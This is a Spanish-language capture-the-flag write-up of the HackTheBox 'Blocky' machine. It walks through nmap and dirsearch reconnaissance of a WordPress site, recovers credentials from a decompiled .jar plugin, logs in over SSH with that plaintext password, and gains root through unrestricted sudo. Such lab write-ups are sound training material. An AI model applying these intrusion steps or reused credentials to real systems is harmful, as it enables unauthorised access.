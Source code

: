 ```yaml
---
title: HackTheBox - Blocky
author: cotes
date: 2023-09-22 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Wordpress', 'Misallocated Privileges']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Blocky/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Blocky Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Wordpress, Misallocated Privileges**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Blocky/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Blocky/02-versions.png)


> Vemos un host `blocky.htb` el cual añadiremos al fichero /etc/hosts
{: .prompt-info }

c. El servicio web es un Wordpress

![](/assets/images/HTB/Easy/Blocky/03-web.png)

* Al investigar un poco la web encontramos un usuario `notch`

    ![](/assets/images/HTB/Easy/Blocky/06-user.png)


* Fuzzearemos por directorios o ficheros existentes en este servicio

    ```bash
    ❯ dirsearch -u http://blocky.htb/
     
    
    [10:07:00] 200 -  745B  - /plugins/
    [10:07:16] 301 -  311B  - /wp-admin
    [10:07:16] 301 -  314B  - /wp-includes
    <SNIP>
    ```

* Al visitar el directorio `/plugins` veremos dos archivos .jar los cuales descargaremos para inspeccionarlos

    ![](/assets/images/HTB/Easy/Blocky/04-jar.png)

d. Al abrir el fichero **Blocky-Core.jar** con `jd-gui` obtenemos credenciales para una base de datos

![](/assets/images/HTB/Easy/Blocky/05-leak.png)


* Nos conectamos por SSH con el usuario **notch** y la contraseña encontrada anteriormente

    ```bash
    ❯ ssh notch@10.10.10.37
    notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22
    ```

### Escalada de Privilegios 💹

a. Listamos nuestros privilegios a nivel de sudoers

```bash
notch@Blocky:~$ sudo -l

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

* Podemos ejecutar cualquier comando como cualquier usuario 🤡

    ```bash
    notch@Blocky:~$ sudo su
    root@Blocky:/home/notch#
    ```